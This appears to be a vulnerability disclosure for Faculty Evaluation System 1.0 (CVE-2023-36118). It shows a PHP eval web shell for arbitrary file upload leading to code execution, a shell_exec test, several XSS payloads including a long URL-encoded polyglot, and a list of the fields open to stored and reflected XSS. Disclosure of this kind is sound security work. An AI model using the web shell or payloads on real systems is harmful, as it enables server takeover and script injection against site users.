 # Faculty Evaluation System 1.0

+ Vendor Homepage: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html
+ Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/eval_2.zip
+ Tested on: XAMPP + win10
+ XSS vuln CVE ID: CVE-2023-36118
+ CVSS v3.1 `AV:L/AC:L/PR:H/UI:R/S:U/C:L/I:L/A:L/E:F/RL:W/RC:R/CR:L/IR: L/AR:L/MAV:L/MAC:L/MPR:H/MUI:R/MS:U/MC:L/MI:L/MA:L`
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/b1dc4678-a5d8-43b4-804a-a7f75b40115e)

First, create a simple PHP script to trigger the vulnerability. The following PHP code will utilize the GET parameter and execute it through the eval() function:

**The $_GET[""] is passed to the eval() function, which means that the string will be interpreted as valid PHP code and executed. It allows the attacker to execute arbitrary PHP code.**

```php
<?php $code = $_GET['code'];
eval($code); ?>
```

When you see this page, you will know that the program has executed successfully. It seems that other tests can be performed.

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/7dbac24e-7e55-4050-8014-0b1ab115f15c)

+ echo shell_exec('whoami');

![](https://hackmd.io/_uploads/B1KnDvgw2.png)

After pressing Set for each option
![](https://hackmd.io/_uploads/r1WcdDgw3.png)

stored xss
Entering the payload in the bottom box of most projects will trigger ->

I will write the details of the affected part at the end

[xss payload](https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt)
```
<script>alert(1)</script>
<img src=1 onerror=alert(1)>
<iframe src=javascript:alert(1)>
....

```

![](https://hackmd.io/_uploads/B1J2Dtlvn.png)
![](https://hackmd.io/_uploads/SyKpwFevh.png)

![](https://hackmd.io/_uploads/ByG2_Pevn.png)
![](https://hackmd.io/_uploads/Bys_b_lP2.png)
![](https://hackmd.io/_uploads/H1ysROxP3.png)


More interesting is this payload

```
xss%20%22%3E%3E%3Cmarquee%3E%3Cimg%20src=x%20onerror=confirm(/OPENBUGBOUNTY/)%3E%3C/marquee%3E%22%20%3E%3C/plaintext\%3E%3C/|\%3E%3Cplaintext/onmouseover=prompt(/OPENBUGBOUNTY/)%20%3E%3Cscript%3Eprompt(/OPENBUGBOUNTY/)%3C/script%3E@gmail.com%3Cisindex%20formaction=javascript:alert(1)%20type=submit%3E%27--%3E%22%20%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E%22%3E%3Cimg/id=%22confirm&lpar;%20OPENBUGBOUNTY)%22/alt=%22/%22src=%22/%22onerror=eval(id&%23x29;%3E%27%22%3E%3Cimg%20src=%22http:%20www.openbugbounty.org/images/design/openbugbounty-logo.png%22%3E%20%EF%BF%BC&show;=xss%20%22%3E%3E%3Cmarquee%3E%3Cimg%20src=x%20onerror=confirm(/OPENBUGBOUNTY/)%3E%3C/marquee%3E%22%20%3E%3C/plaintext\%3E%3C/|\%3E%3Cplaintext/onmouseover=prompt(/OPENBUGBOUNTY/)%20%3E%3Cscript%3Eprompt(/OPENBUGBOUNTY/)%3C/script%3E@gmail.com%3Cisindex%20formaction=javascript:alert(1)%20type=submit%3E%27--%3E%22%20%3E%3C/script%3E%3Cscript%3Ealert(1)%3C/s
```
![](https://hackmd.io/_uploads/HyAyXOeP2.png)

Stored xss will cause
xss is triggered every time the page is visited

Affected vulnerable blocks:
```
On the page http://localhost/eval/, under "Manage Account," if an XSS payload is entered in the "First Name" and "Last Name" fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=, after entering a reflected XSS payload in the "page=" parameter, it can trigger an attack.

On the page http://localhost/eval/index.php?page=subject_list, under the "Manage subject" setting in the "Action" section, if an XSS payload is entered in the "Description" and "Subject" fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=class_list, under the "Manage class" setting in the "Action" section, if an XSS payload is entered in any of the fields, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=academic_list, under the "Manage" setting in the "Action" section, if an XSS payload is entered in the "Year" field, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=questionnaire, under the "Manage" setting in the "Action" section, in the "Question" field at the bottom of the page, if an XSS payload is entered, it can trigger stored XSS.

On the page http://localhost/eval/index.php?page=criteria_list, in the "Criteria" field, if an XSS payload is entered, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=faculty_list, after clicking "Edit" in the "Action" column, on the page http://localhost/eval/index.php?page=edit_faculty&id=, under the "Edit Faculty" section, if an XSS payload is entered in the "School ID," "First Name," and "Last Name" fields, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=student_list, after clicking "Edit" in the "Action" column, on the respective page, in the "School ID," "First Name," and "Last Name" fields, if an XSS payload is entered, it can trigger stored XSS.

On any page under http://localhost/eval/index.php?page=user_list, after clicking "Edit" in the "Action" column, on the respective page, in the "First Name" and "Last Name" fields, if an XSS payload is entered, it can trigger stored XSS.
```

